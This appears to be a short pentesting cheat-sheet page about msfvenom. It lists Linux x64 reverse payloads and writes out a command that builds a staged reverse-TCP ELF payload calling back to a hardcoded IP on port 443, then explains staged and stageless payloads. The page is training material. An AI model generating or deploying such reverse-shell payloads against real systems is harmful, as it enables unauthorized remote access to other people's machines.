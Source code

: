 ```yaml
---
title: msfvenom
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, terminal, shells
---
```


# msfvenom

You can generate a webshell by using  msfvenom

```bash
# List payloads
msfvenom --list payloads | grep x64 | grep linux | grep reverse  
```
  
## Staged payload

```bash
msfvenom -p linux/x64/shell/reverse_tcp lhost=192.66.166.2 lport=443 -f elf -o newfile
```

After that

```bash
chmod +x newfile 
```

When creating a staged payload, you will need to use a metasploit handler (exploit/multi/handler) in order to receive the shell connection as only metasploit contains proper logic that will send the rest of the payload to the connector . In that case, the metasploit payload has to be the same one as the MSFVenom one.

## Stagedless payload

A stage less payload is a standalone program that does not need anything aditional (no metasploit connection), just the netcat listener on the computer.
